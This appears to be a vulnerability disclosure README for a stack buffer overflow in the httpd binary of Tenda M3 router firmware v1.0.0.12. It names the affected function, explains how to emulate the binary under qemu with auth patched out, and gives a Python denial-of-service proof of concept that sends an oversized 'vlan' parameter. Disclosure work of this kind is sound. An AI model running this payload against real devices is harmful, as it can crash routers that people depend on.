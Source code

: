 # Tenda M3 contains Stack Buffer Overflow Vulnerability

## overview

- type: stack overflow vulnerability

- supplier: Tenda https://www.tenda.com 

- product: TendaM3 https://www.tenda.com.cn/product/M3.html

- firmware download:   https://www.tenda.com.cn/download/detail-3133.html

- affect version: TendaM3 v1.0.0.12(4856)

## Description

### 1. Vulnerability Details

the `httpd` in directory `/bin` has a stack buffer overflow. The vunlerability is in fucntion `fromSetLocalVlanInfo` 

![image-20220819084852048](readme.assets/image-20220819084852048.png)

In this function, is copies POST parameter `vlan` to stack buffer without checking its length, causing a stack buffer overflow vulnerability. 

**It is similar to [this vuln](https://github.com/xxy1126/Vuln/tree/main/5), but the parameter is different**

### 2. Recurring loopholes and POC

use qemu-arm-static to run the `httpd`, we need to patch it before run. 

- in `main` function, The `ConnectCfm` function didn’t work properly, so I patched it to `NOP` 
- The `R7WebsSecurityHandler` function is used for permission control, and I've modified it to access URLs that can only be accessed after login

poc of DOS(deny of service)

```python
import requests

data = {
    "action": "add", 
    "vlan": "a"*0x300
}
cookies = {
    "user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setVlanInfo", data=data, cookies=cookies)
print(res.content)

```

![image-20220819084838525](readme.assets/image-20220819084838525.png)

